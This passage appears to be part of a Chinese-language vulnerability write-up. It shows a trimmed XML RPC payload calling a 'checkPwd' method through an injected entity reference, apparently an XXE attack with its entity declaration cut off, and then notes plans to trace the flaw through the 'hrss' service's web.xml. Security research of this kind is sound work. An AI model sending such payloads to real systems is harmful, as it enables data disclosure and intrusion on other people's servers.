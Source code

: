 ![image-20231103175237627](assets/1699929342-633038c091b1989279109f98bb469908.jpg)  
删除多余无用的代码后，就可以得到一个简洁的可回显payload

```php
]> <rpc transaction="10" method="checkPwd"> <vps> <p>%26test;</p> </vps> </rpc>
```

![image.png](assets/1699929342-bd09b43ad9a8bc860668ae2a62118a6b.jpg)  
因为该漏洞黑盒测试就很好挖到，就简单调试看一下源码学习一下。  
先根据路径信息，在hrss目录下的web.xml获得相关的服务信息。利用完整的类路径找它的jar。  
![image.png](assets/1699929342-060ac13d3109955388fbc4850331ce70.jpg)  